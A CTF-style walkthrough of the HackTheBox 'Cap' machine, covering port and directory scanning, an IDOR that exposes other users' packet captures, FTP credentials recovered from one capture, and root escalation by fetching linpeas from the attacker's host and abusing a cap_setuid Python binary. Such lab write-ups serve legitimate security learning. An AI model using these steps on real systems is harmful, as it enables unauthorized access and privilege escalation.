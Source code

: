 # Cap walkthrough
<br/>
## Intro
Welcome into the Cap challenge, here is the link to the [room](https://app.hackthebox.com/machines/351) on HackTheBox.
This is an easy machine where we will have to find out a service running on a port, find the vulnerability (OWASP top 10 web-apps) to get a foothold into the system and finally escalate our privileges to get the root's flag.

Whenever you feel ready start the machine and connect via OpenVPN.

<br/>
<br/>

## The Challenge
For this challenge i will be using the [easyscan](https://github.com/Maat-Cyber/Maat-Cyber-World/blob/02407581a43fa0b8cd2a09a4a015b6cf24ca454f/Bash-Scripts/EasyScan.sh) script i created to perform some initial enumeration, finding the open ports and scanning for hidden directories in web-apps, finally checking the presence of any subdomains or virtual hosts.
If you are interested you can check the code in the GitHub repo.

Launching the tool we feed it the `MACHINE_IP` and domain name `cap.htb` and wait a couple of minutes.

We can see that there is an HTTP server hosted and accessible on port 80, while waiting for other scan results let's take a look at he website at:
```
http://cap.htb
```

When we open the website we will land on the Dashboard of the user Nathan, here there is a summary of security events.

In the meantime the tool's basic scan should be completed giving you this report:
```
# NMAP SCAN
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


# DIRECTORY SCAN
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17381]
/netstat              (Status: 200) [Size: 58715]
```

Visiting the `/data` directory we can see there is an `id` assigned and presumibly for each of them there is a network capture file we can download.
Downloading and opening our user's capture with Wireshark we do not find inside any leaked info, but what if we are able to see also other users capture files?

To test this IDOR we can try to change the `id` number, for this test let's test the first 100.
Let's create a list with this script:
```bash
#! /bin/bash
for i in {0..101}; 

        do echo $i >> numbers_100.txt;
done
```

Now run the list with *gobuster*:
```bash
gobuster dir -u http://cap.htb/data/ -w /usr/share/wordlists/numbers_100.txt --exclude-length 208
```

And we get this output:
```
/0                    (Status: 200) [Size: 17147]
/2                    (Status: 200) [Size: 17144]
/4                    (Status: 200) [Size: 17144]
/5                    (Status: 200) [Size: 17150]
/7                    (Status: 200) [Size: 17147]
/1                    (Status: 200) [Size: 17144]
/3                    (Status: 200) [Size: 17153]
/10                   (Status: 200) [Size: 17154]
/8                    (Status: 200) [Size: 17144]
/6                    (Status: 200) [Size: 17153]
/15                   (Status: 200) [Size: 17148]
/13                   (Status: 200) [Size: 17154]
/14                   (Status: 200) [Size: 17154]
/12                   (Status: 200) [Size: 17154]
```

This mean we can download packet capture files of 14 other user's which definetly confirms the presence of an IDOR.
Since we have access to this data we can now check some of them to see if  there are any captured credentials in the network traffic.

There are actually 10 of them to download as 4 we can see contains 0 packets.
In the one of `id=0` we can see that an FTP connection has been captured, containing the username ==nathan== and the password ==Buck3tH4TF0RM3!==.
(the data in the network capture is actually hex-encoded, so you will need to use a website like `https://cryptii.com/pipes/hex-decoder`).

During our nmap scan we found and FTP server with an open port, let's now connect to it:
```bash
ftp nathan@cap.htb
```

View the files:
```
ls
```

Download the first flag:
```bash
get user.txt
```

<br/>

### Privilege Escalation
Login via ssh with Nathan's credentials.
Check what we can run as `sudo`:
```bash
sudo -l
```

Unfortunately "*Sorry, user nathan may not run sudo on cap.*"

Let's transfer *linpeas* to the target:
On your machine:
```bash
python3 -m http.server
```

On the target:
```bash
wget http://YOUR_IP:8000/linpeas.sh
```

Make the file executable:
```bash
chmod +x linpeas.sh
```

In the result we can see:
```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Looks like we might be able to exploit a Linux-Python Capability, specifically the `CAP_SETUID` one, we can leverage that to spawn a shell as root:
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

If we check with `whoami` we can see we are now root, let's get the flag:
```bash
cat /root/root.txt
```

<br/>
<br/>

Congratulations, you have successfully exploited the IDOR vulnerability and escalated your privileges to root in this Linux machine.

Catch you in the next CTF 😃 
